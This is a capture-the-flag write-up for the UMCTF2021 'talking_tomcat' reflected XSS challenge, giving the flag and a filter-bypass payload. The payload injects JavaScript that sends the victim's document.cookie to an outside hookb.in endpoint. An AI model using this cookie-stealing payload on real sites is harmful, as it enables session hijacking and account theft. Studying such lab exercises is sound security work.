

# UMCTF2021 - talking_tomcat

- Write-Up Author: bluebear \[[MOCTF](https://www.facebook.com/MOCSCTF)\]

- Flag:MOCSCTF{byp@55_xss_f!lt3r}

## **Question:**
talking_tomcat

[main.py](./src/main.py)

## Write up

---

* This is reflected XSS.
* Review the source code, find a payload to bypass XSS sanitization.
* Final payload
```shell
http://13.75.78.108:31007/?xss=<>>

eval(atob(btoa("new Image().src='https://hookb.in/kxVKLgkbVOfrOOoLbEj6/?'+document.cookie")))
```
>eval() excute the javascript  
atob() decode base64 strings  
btoa() encode string to base64  
new image() create image in HTML and create get request to xsshunter
* Use XSS hunter to retrieve the cookie
* You will get the flag **MOCSCTF{byp@55_xss_f!lt3r}**
